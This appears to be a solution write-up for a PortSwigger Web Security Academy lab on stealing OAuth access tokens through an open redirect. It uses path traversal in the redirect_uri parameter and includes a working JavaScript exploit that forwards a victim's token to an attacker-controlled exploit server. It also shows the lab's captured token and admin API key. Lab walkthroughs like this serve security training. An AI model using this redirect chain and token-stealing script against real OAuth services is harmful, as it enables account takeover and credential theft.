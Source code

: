 # Oauth
portswigger OAUTH labs solutions


<h1>Lab: Stealing OAuth access tokens via an open redirect</h1>

First burp intercept and login as a normal then logout and again login , 

Found in http history tab it is very intresting

![image](https://user-images.githubusercontent.com/81432466/215782361-ed504ad1-605d-4f5e-b669-a7583f413420.png)

here is perameter 

GET /auth?client_id=z5msptbdrcm0kgpf04x09&redirect_uri=https://0a8a0035035939c9c42e2a91003c000d.web-security-academy.net/oauth-callback&response_type=token&nonce=316026412&scope=openid%20profile%20email HTTP/1.

But when i try to add another domin in redirect_uri param then i got 404 response because application is whitelisted but application have directory traversal issue. So i tried /../exapmle.com after call back

![image](https://user-images.githubusercontent.com/81432466/215783412-c23a04ea-309a-4c35-a3c1-376cc9ee27a8.png)

So here was may be i can found open redriect so i tried internal url path because application is whitelisted.

![image](https://user-images.githubusercontent.com/81432466/215783837-b99a75e5-649d-4152-a535-b8af5d526de5.png)

so i add this internal path after call back and i did intercept off

![image](https://user-images.githubusercontent.com/81432466/215784291-1ad4085a-f657-40e1-a8bb-135aa0c17261.png)

and i redirected on post?postId=4 blog page

I have found another new intresting thing

![image](https://user-images.githubusercontent.com/81432466/215785272-20c84a26-b99a-4b1e-abf9-a80f6a1cec84.png)

So i tried if i add this path so can we bypass whitelisted function.  so i tried again logout and intercept callback request again 

![image](https://user-images.githubusercontent.com/81432466/215786185-f45549aa-d413-4f36-a3d0-e140b8c19ec2.png)

and i did intercept off and i got 

![image](https://user-images.githubusercontent.com/81432466/215786326-799c6da3-8ccd-4add-a235-1bcb407ae4b8.png)

So i tried exploit server path and same i got hello world.

<h2>Now Time to exploit</h2>

Add exploit server path 
![image](https://user-images.githubusercontent.com/81432466/215787126-fb4b2e5a-8399-47f1-b2b9-51393049eaef.png)

<h2>Below is exploit code</h2>

<script>
    if (!document.location.hash) {
        window.location = 'https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>

![image](https://user-images.githubusercontent.com/81432466/215787677-586a0fd9-47b6-4ee9-a8b8-01e549b89715.png)

Now i sent to this exploit to victim via click to deliver to victim button. And check /?access_token=QjQfXz5-OfbZ8tXuPnTpqaUZc8A93XeTeIsDAkkS63T

Now i check my http history tab coz i was login winner account 

And i have found

![image](https://user-images.githubusercontent.com/81432466/215788574-4607a91b-0fc3-4a93-96fc-9a5a8a86bc36.png)

it is winner account token but i got admin token 

I replaced that token

![image](https://user-images.githubusercontent.com/81432466/215788921-0264376e-66dd-4f45-9e46-758a9bc624d5.png)

And got admin keys

{"sub":"administrator","apikey":"KWshIhEjr8QhVDNb7U6yhs0xHz6hxcdq","name":"Administrator","email":"administrator@normal-user.net","email_verified":true}

Now time to submit this key

KWshIhEjr8QhVDNb7U6yhs0xHz6hxcdq

![image](https://user-images.githubusercontent.com/81432466/215789243-8855be71-b3ed-4ae9-8c2e-f99d60051025.png)


===============================================================================================================================================================









